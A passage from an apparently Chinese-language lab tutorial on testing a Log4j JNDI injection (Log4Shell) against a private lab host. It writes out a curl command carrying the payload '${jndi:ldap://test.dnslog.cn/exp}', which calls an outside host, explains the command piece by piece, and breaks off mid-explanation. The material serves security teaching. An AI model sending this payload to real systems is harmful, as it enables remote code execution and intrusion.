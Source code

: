 3.在此执行命令 `curl -X OPTIONS 目标地址 -i` 查看目标网址支持的HTTP请求方法：

![查看支持的请求](picture/查看支持的请求.png)

**那么如果 `POST` 不被支持，如何绕过？**

在此我们使用了 `GET` 请求+参数

```
curl -G http://192.168.109.4:23480/hello --data-urlencode 'payload=${jndi:ldap://test.dnslog.cn/exp}'
```

> **命令解析**
>
> ```bash
> curl -G http://192.168.109.4:23480/hello --data-urlencode 'payload=${jndi:ldap://test.dnslog.cn/exp}'
> ```
>
> 这个命令使用 `curl` 发送了一个 **GET 请求**，并通过 **URL 参数** 的方式传递了 `payload` 数据。
>
> ------
>
> **各部分解析**
>
> | **部分**                                                     | **作用**                                                     |
> | ------------------------------------------------------------ | ------------------------------------------------------------ |
> | `curl`                                                       | 使用 `curl` 命令行工具发送 HTTP 请求                         |
> | `-G`                                                         | 让 `curl` 以 **GET 方法** 发送请求（默认 `curl` 发送的是 `POST`，加上 `-G` 变成 `GET`） |
> | `http://192.168.109.4:23480/hello`                           | 目标 URL，即 Web 服务器的 `/hello` 接口                      |
> | `--data-urlencode 'payload=${jndi:ldap://test.dnslog.cn/exp}'` | **URL 编码参数**，把 `payload=${jndi:ldap://test.dnslog.cn/exp}` 以 URL 查询参数（Query Parameter）的形式添加到请求中 |
>
> ------
>
> **实际发送的请求**
>
> `curl -G` 的作用是 **把 `--data-urlencode` 里的参数转换成 URL 查询参数**，最终 `curl` 发送的 HTTP 请求会变成：
>
> ```
> GET /hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Ftest.dnslog.cn%2Fexp%7D HTTP/1.1
> Host: 192.168.109.4:23480
> User-Agent: curl/7.XX.X
> Accept: */*
> ```
>
> 这里：
>